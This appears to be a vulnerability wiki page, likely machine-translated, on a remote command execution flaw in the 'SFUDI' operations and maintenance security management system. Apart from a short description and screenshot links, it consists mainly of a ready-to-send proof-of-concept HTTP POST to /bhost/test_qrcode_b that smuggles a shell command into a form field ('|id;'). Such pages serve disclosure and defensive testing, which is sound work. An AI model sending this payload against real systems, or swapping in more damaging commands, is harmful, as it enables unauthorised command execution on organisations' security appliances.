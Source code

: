 # SFUDI Operation and Maintenance Security Management System test_qrcode_b Remote Command Execution Vulnerability

## Vulnerability Description

Sforddy's operation and maintenance security management system is an operation and maintenance security management fortress developed by Sforddy. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SFUDI Operation and Maintenance Security Management System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697769918498-610b91ad-86c8-4323-a090-b7dd64e707fe-20231108132626595.png)

Verify POC

```php
POST /bhost/test_qrcode_b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Content-Length: 23
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://xxx.xxx.xxx.xxx
Accept-Encoding: gzip

z1=1&z2="|id;"&z3=bhost
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697769963619-1628285d-0670-4734-b2ad-1ce0f63b9c4c.png)